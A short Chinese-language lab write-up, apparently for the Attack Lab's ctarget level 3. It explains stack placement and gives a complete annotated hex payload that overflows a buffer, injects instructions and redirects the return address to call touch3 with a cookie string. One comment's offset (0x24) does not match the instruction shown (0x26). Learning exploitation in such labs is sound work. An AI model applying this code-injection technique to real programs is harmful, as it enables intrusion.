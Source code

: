 和ctarget level2非常类似，但 需要注意 输入的参数变量(字符串cookie)是字符串类型的，所以需要把它放在栈中，并且需要注意这个字符串不能 被后面执行的函数给覆盖。
而把 cookie放在比rsp的地址 更大的地方，就不会被覆盖。

栈的内容：  

<img src="mdpics/cl3.png" height="290" width="330">


步骤：
1. 把需要用到的命令放在cl3Draft.s中，使用gcc命令编译成目标代码：
gcc -c cl3Draft.s
得到一个目标代码： cl3Draft.o

2. 反汇编 成汇编代码：
objdump -d cl3Draft.o > cl3Binary.s
得到文件 cl3Binary.s

3. 查看cl3Binary.s中的二进制代码
修改并 加入 地址那些内容，写入文件 cl3hex.txt中。内容为：

    48 83 ec 26     /\* sub    $0x26,%rsp  让rsp指向 存放touch3地址的地方 \*/  
    48 8d 7c 24 08  /\* lea    0x8(%rsp),%rdi  
                    rdi存放的 用户输入的 cookie的位置  
                    为了不被后面的代码overwrite，  
                    必须 放在return address(指向touch3的地址)之后 \*/  
    c3              /\* retq \*/  
    fa 18 40 00 00 00 00 00 /\* touch3的地址 \*/  
    35 39 62 39 39 37 66 61 00   
    /\* 9个字节的 字符串类型的 cookie 0x59b997fa  现在有27个字节 \*/  
    41 42 43 44 45 46 47 48 49 50 41 42 43  
    /\* 刚好40个字节 \*/  
    78 dc 61 55   /\* 返回的injection code的地址 也就是第一行命令"sub $0x24(36),%rsp"的地址 \*/
